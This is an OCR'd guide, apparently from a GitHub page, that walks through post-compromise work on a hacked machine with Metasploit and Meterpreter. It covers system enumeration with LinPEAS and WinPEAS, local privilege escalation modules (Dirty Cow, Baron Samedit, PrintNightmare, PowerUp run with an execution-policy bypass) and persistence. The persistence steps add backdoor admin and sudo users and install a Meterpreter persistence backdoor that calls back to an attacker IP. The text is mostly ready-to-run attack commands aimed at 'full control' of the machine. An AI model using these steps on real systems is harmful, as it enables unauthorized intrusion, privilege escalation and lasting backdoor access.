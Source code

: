 **Comprehensive Guide: Vulnerability Assessment on a Compromised Machine
Using Metasploit and Meterpreter**

This detailed guide outlines the steps to conduct a complete
vulnerability assessment on a compromised machine using Metasploit and
Meterpreter. It includes additional tools, workflows, and privilege
escalation techniques to achieve root or system-level access.

**1. Initial Access with Meterpreter**

After successfully compromising the target machine and establishing an
active Meterpreter session:

1.  Verify the current user:

meterpreter \> getuid

-   If the user is not root (Linux) or Administrator/System (Windows),
    privilege escalation will be required.

2.  Gather system information:

meterpreter \> sysinfo

-   This command provides details such as the operating system,
    architecture, and version, essential for identifying vulnerabilities
    and local exploits.

3.  **System Enumeration**

Before exploiting, collect as much information as possible to identify
vulnerabilities and misconfigurations.

**2.1 Using Metasploit Modules**

1.  **Suggest Local Exploits:** Use the local_exploit_suggester module
    to analyze the system and recommend potential exploits for privilege
    escalation:

2.  use post/multi/recon/local_exploit_suggester

3.  set SESSION \<session_id\>

run

-   The module evaluates kernel versions, patches, and configurations to
    suggest applicable exploits.

4.  **System Information Gathering:**

    -   **Linux:**

    -   use post/linux/gather/enum_system

    -   set SESSION \<session_id\>

run

-   **Windows:**

-   use post/windows/gather/enum_system

-   set SESSION \<session_id\>

run

-   These modules extract information such as:

    -   User accounts and permissions.

    -   Running services.

    -   Security configurations.

**2.2 External Tools (LinPEAS/WinPEAS)**

For a more detailed enumeration:

1.  **LinPEAS (Linux):**

    -   A script that detects insecure configurations, SUID/SGID files,
        vulnerable services, and kernel versions.

**Usage:**

1.  Upload the script to the target machine:

meterpreter \> upload /path/to/linpeas.sh /tmp/linpeas.sh

2.  Open a shell session:

meterpreter \> shell

3.  Make the script executable:

chmod +x /tmp/linpeas.sh

4.  Execute the script:

./tmp/linpeas.sh

2.  **WinPEAS (Windows):**

    -   A tool that identifies weak registry configurations, vulnerable
        services, and sensitive files.

**Usage:**

1.  Upload the tool to the target system:

meterpreter \> upload /path/to/winPEAS.exe C:\\Temp\\winPEAS.exe

2.  Execute it directly:

meterpreter \> execute -f C:\\Temp\\winPEAS.exe

**3. Privilege Escalation**

After identifying vulnerabilities, use local exploits to escalate
privileges to root or SYSTEM.

**3.1 Linux**

1.  **Kernel Exploits:**

    -   Example: **Dirty Cow (CVE-2016-5195):**

    -   use exploit/linux/local/dirty_cow

    -   set SESSION \<session_id\>

run

-   For outdated kernels, use exploits like:

-   use exploit/linux/local/sudo_baron_samedit

-   set SESSION \<session_id\>

run

2.  **Weak Permissions:**

    -   Exploit misconfigured SUID files or other insecure
        configurations detected by LinPEAS.

**3.2 Windows**

1.  **Exploitation:**

    -   Examples of vulnerabilities:

        -   **PrintNightmare (Spooler Service):**

        -   use exploit/windows/local/printnightmare

        -   set SESSION \<session_id\>

        -   set RHOSTS \<target_ip\>

run

-   **JuicyPotato (COM Permissions):** Target privilege escalation in
    COM-based services.

2.  **External Tools:**

    -   **PowerUp:** A PowerShell script for privilege escalation:

    -   powershell

powershell -exec bypass -file C:\\Temp\\PowerUp.ps1

**4. Establishing Persistence**

After escalating privileges, ensure continuous access:

1.  **Create a New User:**

    -   **Linux:**

    -   useradd -m -s /bin/bash new_user

    -   passwd new_user

usermod -aG sudo new_user

-   **Windows:**

-   cmd

-   net user new_user password /add

net localgroup administrators new_user /add

2.  **Install a Backdoor:**

meterpreter \> run persistence -U -i 5 -p \<port\> -r \<attacker_ip\>

**Summary**

By following this approach:

1.  Gather detailed system information using Metasploit modules,
    LinPEAS, or WinPEAS.

2.  Identify exploitable vulnerabilities such as outdated kernels,
    SUID/SGID files, or misconfigurations.

3.  Use local exploits or weak permissions for privilege escalation.

4.  Establish persistence to maintain future access.

This combination of tools and techniques ensures full control over the
compromised machine while meeting operational goals effectively.
